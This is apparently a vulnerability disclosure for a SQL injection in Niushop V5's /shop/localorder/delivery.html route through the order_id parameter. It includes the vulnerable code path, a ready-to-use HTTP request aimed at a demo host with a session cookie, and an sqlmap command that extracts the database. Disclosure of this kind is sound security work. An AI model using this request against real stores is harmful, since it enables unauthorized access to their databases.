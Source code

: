 Niushop V5 has a SQL injection vulnerability.

Official website: https://gitee.com/niushop-team/niushop_b2c_v5#https://gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616](https://gitee.com/niushop-team/niushop_b2c_v5#https:/gitee.com/link?target=https%3A%2F%2Fwww.kancloud.cn%2Fniucloud%2Fniushop_b2c_v5%2F3037616

Version: V5

Route: /shop/localorder/delivery.html

Injection parameters: order_id

#### 1.Vulnerability analysis

niushop_b2c_v5-master/niushop/app/model/order/LocalOrder.php
In the orderGoodsDelivery function, the native SQL statement concatenates $order_id.

Click in to track the function, niushop_b2c_v5-master/niushop/app/shop/controller/Localorder.php calls this method.

Construct a data packet to trigger the function (save as post.txt).

```
GET /shop/localorder/delivery.html?order_id=1*&deliverer=2&deliverer_mobile=1 HTTP/2
Host: uniapp.v5.niuteam.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 0
Origin: https://uniapp.v5.niuteam.cn
Referer: https://uniapp.v5.niuteam.cn/shop.html
Cookie: think_lang=zh-cn; PHPSESSID=b85fe59b153b7c2539fc0188bed22f38
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

#### 2.Vulnerability verification and exploitation

Replace the cookie in post.txt after login

sqlmap --batch --tamper=space2comment -r post.txt --current-db

![image-20250218150440806](./assets\image-20250218150440806.png)

